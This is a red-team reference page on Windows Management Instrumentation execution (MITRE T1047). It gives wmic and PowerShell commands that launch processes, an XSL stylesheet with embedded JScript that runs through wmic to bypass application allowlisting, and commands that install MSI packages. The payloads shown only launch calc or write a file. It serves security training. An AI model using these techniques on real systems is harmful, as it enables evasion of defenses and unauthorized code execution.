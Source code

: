 ```yaml
---
description: MITRE ATT&CK™  Windows Management Instrumentation - Technique T1047
---
```


# WMI

## Theory

Windows Management Instrumentation (WMI) provides a standardized way for querying and managing various elements of a Windows operating system. It allow administrators to perform standard management tasks that attackers can abuse to perform code execution.

We can use WMI to execute binary, commands, msi, services, scheduled tasks or XSL file that contain javascript payload with WMIC.

## Practice

{% tabs %}
{% tab title="Commands" %}
Execute a local binary or a command using wmic.exe

```bash
wmic.exe process call create "C:\Windows\Temp\evil.exe"
wmic.exe process call create "cmd.exe /c calc.exe"
```

Or we may use powershell&#x20;

```powershell
#Execute a command remotely 
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

#Powershell v1+
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList $Command

#Powershell v3+
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = $Command }
```
{% endtab %}

{% tab title="XSL" %}
Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo

Define the XSL file containing the jscript payload:

```bash
#evil.xsl
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```

Invoke wmic command and specify /format pointing to the evil.xsl:

```bash
wmic os get /FORMAT:"evil.xsl"
```
{% endtab %}

{% tab title="MSI" %}
Install a msi package using wmic.exe

```bash
wmic product call install PackageLocation=c:\Windows\myinstaller.msi
```

Or we may use powershell

```powershell
#Powershell v1+
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","C:\Windows\myinstaller.msi")

#Powershell v3+
Invoke-CimMethod -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```
{% endtab %}
{% endtabs %}

You may want to check this page for remote WMI execution :&#x20;

{% content-ref url="../../pivoting/remote-wmi.md" %}
[remote-wmi.md](../../pivoting/remote-wmi.md)
{% endcontent-ref %}

## Resources

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/application-whitelisting-bypass-with-wmic-and-xsl" %}
